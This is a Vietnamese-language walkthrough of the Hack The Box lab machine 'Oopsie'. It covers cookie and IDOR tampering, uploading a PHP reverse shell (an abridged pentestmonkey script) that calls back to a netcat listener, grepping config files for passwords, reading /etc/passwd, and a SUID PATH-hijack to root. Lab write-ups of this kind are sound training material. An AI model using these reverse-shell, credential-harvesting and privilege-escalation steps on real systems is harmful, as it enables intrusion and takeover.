


# Oopsie

## Introduction

Bất cứ khi nào thực hiện đánh giá web bao gồm các cơ chế xác thực, luôn được khuyên nên kiểm tra cookie, phiên và cố gắng tìm hiểu cách kiểm soát truy cập thực sự hoạt động. Trong nhiều trường hợp, một cuộc tấn công Thực thi mã từ xa và một chỗ đứng trên hệ thống có thể không đạt được riêng lẻ, mà đúng hơn là sau khi kết nối các loại lỗ hổng và khai thác khác nhau. Trong box này sẽ tìm hiểu rằng các loại lỗ hổng Tiết lộ thông tin và Kiểm soát truy cập bị hỏng mặc dù chúng có vẻ không quan trọng lắm nhưng có thể có tác động lớn khi tấn công hệ thống, và do đó tại sao ngay cả các lỗ hổng nhỏ cũng quan trọng.

## Enumeration

Bắt đầu liệt kê bằng cách tìm kiếm bất kỳ cổng mở nào bằng công cụ Nmap:

```
nmap -sC -sV {TARGET_IP}
```


Phát hiện cổng 22 (SSH) và cổng 80 (HTTP) là mở. Truy cập IP bằng trình duyệt web với một trang web về ô tô.


Trên trang chủ, tìm thấy thông tin thú vị về cách truy cập các dịch vụ thông qua đăng nhập:


Theo thông tin này, trang web phải có trang đăng nhập. Trước khi tiến hành liệt kê thư mục và trang, thử lập bản đồ trang web bằng cách sử dụng proxy Burp Suite để thu thập dữ liệu thụ động trang web. Burp Suite là ứng dụng kiểm tra bảo mật mạnh mẽ có thể được sử dụng để thực hiện các yêu cầu web trên các ứng dụng web, ứng dụng di động và máy khách dày. Burp cung cấp nhiều khả năng như trình thu thập dữ liệu web, máy quét, proxy, bộ lặp, kẻ xâm nhập và nhiều khả năng khác.

```
Trình thu thập dữ liệu web (còn được gọi là web spider hoặc web robot) là một chương trình hoặc tập lệnh tự động duyệt World Wide Web theo cách có phương pháp, tự động. Quá trình này được gọi là Web crawling hoặc spider. Nhiều trang web hợp pháp, đặc biệt là các công cụ tìm kiếm, sử dụng spider như một phương tiện cung cấp dữ liệu cập nhật.

Nếu tạo đường hầm lưu lượng truy cập web thông qua Burp Suite (mà không chặn các gói tin), theo mặc định, nó có thể thụ động thu thập dữ liệu trang web, cập nhật sơ đồ trang web với tất cả nội dung được yêu cầu và do đó tạo ra một cây tệp và thư mục mà không gửi bất kỳ yêu cầu nào khác.
```

Để đọc thêm và phân tích sâu hơn về cách sử dụng proxy web và các công cụ như Burp suite, có thể tìm thấy tại mô-đun academy HTB Using Web Proxies:




Sau đó nhập "proxy" vào thanh tìm kiếm và bây giờ Network Settings sẽ được hiển thị. Sau đó chọn `Settings...`.


Sau đó, chọn `Manual proxy configuration`, trong đó nhập IP `127.0.0.1` làm Proxy HTTP và cổng 8080 nơi Proxy Burp đang lắng nghe.

Lưu ý: Nên kiểm tra tùy chọn `Also use this proxy for FTP and HTTPS` để tất cả các yêu cầu có thể đi qua Burp.


Cần vô hiệu hóa chức năng chặn trong Burp suite vì chức năng này được bật theo mặc định. Điều hướng đến `Proxy Tab` và trong tab phụ `Intercept`, hãy chọn nút `Intercept in on` để vô hiệu hóa chức năng này.


Bây giờ mọi thứ đã được thiết lập chính xác, hãy làm mới trang trong trình duyệt và chuyển sang Burp Suite trong tab Target rồi vào tùy chọn Sitemap:


Có thể phát hiện một số thư mục và tệp không hiển thị khi duyệt. Một thư mục thực sự rất thú vị là thư mục `/cdn-cgi/login`.

Truy cập thư mục đó trong trình duyệt và thực sự được hiển thị trang đăng nhập:


Sau khi thử một vài kết hợp tên người dùng/mật khẩu mặc định, không thể truy cập được. Nhưng cũng có tùy chọn `Login as Guest`. Thử tùy chọn đó và bây giờ được cung cấp một vài tùy chọn điều hướng mới khi đăng nhập với tư cách Khách:



Sau khi duyệt qua các trang có sẵn, phát hiện ra rằng trang duy nhất thú vị có vẻ là `Uploads`. Tuy nhiên, không thể truy cập vào trang này vì cần có quyền `super admin`:


Chúng ta cần tìm cách nâng cao đặc quyền từ người dùng `Guest` lên vai trò `super admin`. Một cách để thử là kiểm tra xem cookie và phiên có thể bị thao túng hay không.

```
Cookie là các tệp văn bản chứa những phần dữ liệu nhỏ do máy chủ web tạo ra, được trình duyệt lưu trữ vào hệ thống tệp máy tính và được sử dụng để nhận dạng người dùng khi duyệt trang web.
```

Có thể xem và thay đổi cookie trong Mozilla Firefox thông qua Developer Tools.

```
Developer Tools là một bộ công cụ dành cho nhà phát triển web được tích hợp trong Firefox. Có thể sử dụng chúng để kiểm tra, chỉnh sửa và gỡ lỗi HTML, CSS và JavaScript
```

Để vào bảng Developer Tools, cần nhấp chuột phải vào nội dung của trang web và chọn `Inspect Element (Q)`.


Sau đó, có thể điều hướng đến phần Lưu trữ nơi Cookie đang được trình bày. Có một `role=guest` và `user=2233` mà có thể cho rằng nếu biết được `super admin` cho biến `user`, có thể truy cập vào trang tải lên.


Kiểm tra lại URL trên thanh trình duyệt, nơi có `id` cho từng người dùng:

```
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2
```

Thử thay đổi biến `id` thành một số khác như 1 chẳng hạn để xem liệu có thể liệt kê người dùng hay không:

```
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1
```


Thật vậy, đã có một lỗ hổng tiết lộ thông tin có thể lợi dụng. Bây giờ biết ID truy cập của người dùng `admin` do đó thử thay đổi các giá trị trong cookie thông qua các Developer Tools để giá trị `user` là `34322` và giá trị `role` là `admin`. Sau đó, truy cập lại trang `Uploads`.


Cuối cùng cũng có thể truy cập vào form tải lên.

## Foothold

Bây giờ đã có quyền truy cập vào biểu mẫu tải lên, chúng ta có thể thử tải lên một `PHP` reverse shell. Thay vì tạo riêng một shell, sử dụng một shell hiện có.

Trong Parrot OS, có thể tìm thấy webshell trong thư mục /usr/share/webshells/, tuy nhiên, nếu không có, có thể tải xuống từ https://github.com/BlackArch/webshells.

Đối với bài tập này sẽ sử dụng /usr/share/webshells/php/php-reverse-shell.php.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//

<SNIP>
  
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS WITH YOUR IP
$port = 1234;       // CHANGE THIS WITH YOUR LISTENING PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<SNIP>

?>
```

Tất nhiên cần sửa đổi đoạn mã trên để nó có thể phù hợp với nhu cầu. Thay đổi các biến `$ip` và `$port` để phù hợp với cài đặt và sau đó sẽ thử tải tệp lên.


Cuối cùng đã tải nó lên. Bây giờ có thể cần phải bruteforce các thư mục để xác định vị trí thư mục lưu trữ các tệp đã tải lên nhưng cũng có thể đoán được. `uploads` directory có vẻ là một giả định hợp lý. Xác nhận điều đó bằng cách chạy công cụ `gobuster`.

```
gobuster dir --url http://{TARGET_IP}/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```


`Gobuster` ngay lập tức tìm thấy thư mục `/uploads`. Không có quyền truy cập vào thư mục nhưng có thể thử truy cập vào tệp đã tải lên.


Nhưng trước tiên, cần thiết lập kết nối netcat:

```
nc -lvnp 1234
```

Sau đó yêu cầu shell thông qua trình duyệt:

```
http://{TARGET_IP}/uploads/php-reverse-shell.php
```

và kiểm tra trình nghe.

```
Lưu ý: Trong trường hợp shell không có ở đó thì có thể nó đã bị xóa nên cần tải nó lên lại
```


Có một reverse shell! Tuy nhiên, để có một shell chức năng, có thể phát hành lệnh sau:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Lateral Movement

Với tư cách là người dùng `www-data`, không thể đạt được nhiều thứ vì vai trò này đã hạn chế quyền truy cập vào hệ thống. Vì trang web đang sử dụng PHP và SQL nên có thể liệt kê thêm thư mục web để tìm các tiết lộ tiềm ẩn hoặc cấu hình sai. Sau một số tìm kiếm, có thể tìm thấy một số tệp php thú vị trong thư mục `/var/www/html/cdn-cgi/login`. Có thể xem xét thủ công mã nguồn của tất cả các trang hoặc có thể thử tìm kiếm các chuỗi thú vị bằng cách sử dụng công cụ `grep`. `grep` là một công cụ tìm kiếm PATTERN trong mỗi FILE và in ra các dòng khớp với các pattern. Có thể sử dụng `cat *` để đọc tất cả các file trong khi chuyển đầu ra đến grep, tại đó cung cấp pattern của một chuỗi bắt đầu bằng từ `passw` và theo sau là bất kỳ chuỗi nào như ví dụ từ passwd hoặc password. Cũng có thể sử dụng lệnh chuyển đổi `-i` để bỏ qua các từ phân biệt chữ hoa chữ thường như Password.

```
cat * | grep -i passw*
```


Chúng tôi thực sự đã có được mật khẩu: `MEGACORP_4dm1n!!`. Có thể kiểm tra những người dùng có sẵn trên hệ thống bằng cách đọc tệp `/etc/passwd` để có thể thử sử dụng lại mật khẩu này:

```
cat /etc/passwd
```


Tìm thấy người dùng `robert`. Để đăng nhập với tư cách là người dùng này, sử dụng lệnh `su`:

```
su robert
```


Thật không may, đó không phải là mật khẩu của người dùng `robert`. Bây giờ hãy đọc từng tệp một. Bắt đầu với db.php có vẻ thú vị:


Bây giờ đã có mật khẩu, có thể đăng nhập thành công và đọc flag `user.txt` có thể tìm thấy trong thư mục gốc của `robert`:


## Privilege Escalation

Trước khi chạy bất kỳ tập lệnh tăng cường đặc quyền hoặc liệt kê nào, hãy kiểm tra các lệnh cơ bản để nâng cao đặc quyền như `sudo` và `id`:


Nhận thấy người dùng `robert` là một phần của nhóm `bugtracker`. Hãy thử xem có tệp nhị phân nào trong nhóm đó không:

```
find / -group bugtracker 2>/dev/null
```


Tìm thấy một file có tên `bugtracker`. Kiểm tra xem đó là loại file nào và có đặc quyền gì:

```
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```


Có một tập hợp `suid` trên nhị phân đó, đây là một con đường khai thác đầy hứa hẹn.

```
Thường được gọi là SUID (Đặt ID người dùng của chủ sở hữu), quyền đặc biệt cho cấp độ truy cập của người dùng có một chức năng duy nhất: Một tệp có SUID luôn được thực thi với tư cách là người dùng sở hữu tệp, bất kể người dùng nào truyền lệnh. Nếu chủ sở hữu tệp không có quyền thực thi, hãy sử dụng chữ S viết hoa ở đây.

Trong trường hợp này, 'bugtracker' nhị phân do root sở hữu và có thể thực thi nó với tư cách là root vì nó đã được đặt SUID.
```

Chạy ứng dụng để quan sát cách nó hoạt động:


Công cụ này chấp nhận đầu vào của người dùng làm tên của tệp sẽ được đọc bằng lệnh `cat`, tuy nhiên, nó không chỉ định toàn bộ đường dẫn đến tệp `cat` và do đó có thể khai thác điều này.

Điều hướng đến thư mục /tmp và tạo một tệp có tên là cat với nội dung sau:

```
/bin/sh
```

Thiết lập quyền thực thi:

```
chmod +x cat
```

Để khai thác điều này, thêm thư mục /tmp vào biến môi trường PATH.

```
PATH là biến môi trường trên các hệ điều hành giống Unix, DOS, OS/2 và Microsoft Windows, chỉ định một tập hợp các thư mục chứa các chương trình thực thi.
```

Có thể thực hiện điều đó bằng cách sử dụng lệnh sau:

```
export PATH=/tmp:$PATH
```

Bây giờ sẽ kiểm tra `$PATH`:

```
echo $PATH
```


Cuối cùng hãy chạy `bugtracker` từ thư mục `/tmp`:


Root flag có thể được tìm thấy trong thư mục `/root`:

Đã có cả hai cờ!